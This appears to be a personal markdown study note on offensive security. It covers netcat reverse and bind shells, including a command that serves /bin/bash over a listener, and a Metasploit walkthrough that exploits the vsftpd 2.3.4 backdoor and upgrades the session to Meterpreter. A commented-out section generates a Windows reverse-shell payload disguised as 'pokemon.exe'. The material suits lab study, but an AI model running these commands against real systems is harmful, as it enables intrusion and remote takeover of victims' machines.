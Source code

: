 <!-- /notes/cyber/exploitation.md -->

<br>

`Last updated: Tue 29 Nov 2022 08:58 IST`

<br>

<h1 id="additional-notes">Additional notes</h1>

## nc

**Reverse shell:**

1. Attacker exploits victim's machine  
2. Attacker listens on port 4444 `nc -l -p 4444`  
3. Victim reverse TCP connection to attacker `nc 1.1.1.1 4444`

**Bind shell:**

1. Attacker exploits victim's macine  
2. Bind TCP connection to victim `nc 2.2.2.2 4444`  
3. Victim listens on port 4444 `nc -l -p 4444`

```bash
nc -l -p 4444 #listen for inbound connections, local port
nc 10.8.22.123 4444 #tcp connection to ip and port
nc -lvp 7777 -e /bin/bash #listen, verbose, port, execute
```

<br>
<h1 id="metasploit-framework">Metasploit Framework</h1>

## msfdb

```bash
msfdb init
msfdb start
msfdb stop
```

## msfconsole

```bash
help
search
use
```

#### 1. VSFTPD v2.3.4 Backdoor Command Execution

_`msf6 > `_

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
```

_`msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`_

```bash
show options #show exploit options
show payloads #show exploit payloads
set RHOSTS 10.8.22.123 #set module options
set payload 0 #set payload options
exploit #or run
```
##### (Ctrl + Z) to send session to background.

#### 2. Upgrade shell to Meterpreter:

_`msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`_

```bash
sessions #see active sessions
search shell_to #search for module
use post/multi/message/shell_to_meterpreter
```

#### 3. Shell to Meterpreter Upgrade

_`msf6 post(multi/manage/shell_to_meterpreter) >`_

```bash
show options
sessions
set SESSION 1
exploit
sessions
sessions -i 2 #enter meterpreter session
```

##### (Ctrl + Z) to send session to background.

<!--
```bash
use auxiliary/scanner/portscan/syn
```
-->

## msfvenom

```bash
msfvenom -h
msfvenom -l payloads
msfvenom -l formats
```

<!--
#### 1. Set up listener on attacker's machine:

```bash
nc -lvp 7777 -e /bin/bash #listen, verbose, port, execute
```


#### 2. In `msfconsole`:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.172.128
set LPORT 7777
exploit
# set ExitOnSession false
# exploit -j
```

#### 3. Generate payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.172.128 LPORT=7777 -f exe > pokemon.exe
```

#### 4. Send to Windows 7 VM and run it
-->
